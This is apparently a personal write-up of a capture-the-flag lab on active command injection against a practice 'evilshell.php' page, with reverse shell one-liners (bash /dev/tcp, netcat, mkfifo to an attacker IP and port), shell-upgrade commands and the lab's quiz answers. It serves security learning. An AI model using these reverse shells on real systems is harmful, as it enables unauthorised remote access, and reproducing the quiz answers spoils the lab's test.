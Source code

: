 **What is Active Command Injection?**

Blind command injection occurs when the system command made to the server does not return the response to the user in the HTML document. Active command injection will return the response to the user. It can be made visible through several HTML elements.

---

Let's consider a scenario: EvilCorp has started development on a web based shell but has accidentally left it exposed to the Internet. It's nowhere near finished but contains the same command injection vulnerability as before! But this time, the response from the system call can be seen on the page! They'll never learn!

Just like before, let's look at the sample code from evilshell.php and go over what it's doing and why it makes it active command injection. See if you can figure it out. I'll go over it below just as before.

![[/Untitled 566.png|Untitled 566.png]]

---

We have an input in http://<IP_ADDRESS>/evilshell.php

![[/Untitled 1 31.png|Untitled 1 31.png]]

This input isnt sanitized, so we have Command Injection

![[/Untitled 2 24.png|Untitled 2 24.png]]

We can try establish a **Reverse Shell**

![[/Untitled 3 24.png|Untitled 3 24.png]]

> [!important]  
> REVERSE SHELL CODEbash -c "bash -i &> /dev/tcp/<IP_ADDRESS>/<PORT> 0>&1"  
system('bash -c "bash -i &> /dev/tcp/<IP>/<PORT> 0>&1"');  
nc <ip> <port> -e /bin/bash  
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 4444 >/tmp/fIn our side we have![[/Untitled 4 24.png|Untitled 4 24.png]]nc -nlvp <PORT>  
  
> [!important]  
> Treat shellscript /dev/null -c bashctrl zstty raw -echo; fgreset xtermexport TERM=xtermexport SHELL=/bin/bashstty sizestty rows X columns X  
python3 -c 'import pty;pty.spawn("/bin/bash")'export TERM=xtermctrl + zstty raw -echo; fg  

Success!

![[/Untitled 5 17.png|Untitled 5 17.png]]

---

## MACHINE RESOLUTION

![[/Untitled 6 15.png|Untitled 6 15.png]]

What strange text file is in the website root directory?

==**drpepper.txt**==

![[/Untitled 7 15.png|Untitled 7 15.png]]

How many non-root/non-service/non-daemon users are there?

==**0 zero**==

This is because there is no user “flagged” as non-root/non-service/non-daemon.

![[/Untitled 8 14.png|Untitled 8 14.png]]

What user is this app running as?

==**www-data**==

![[/Untitled 9 12.png|Untitled 9 12.png]]

What is the user's shell set as?

==**/usr/sbin/nologin**==

![[/Untitled 10 9.png|Untitled 10 9.png]]

What version of Ubuntu is running?

==**14.04.4**== LTS

![[/Untitled 11 9.png|Untitled 11 9.png]]

Print out the MOTD.  What favorite beverage is shown?

==**DR PEPPER**==

![[/Untitled 12 8.png|Untitled 12 8.png]]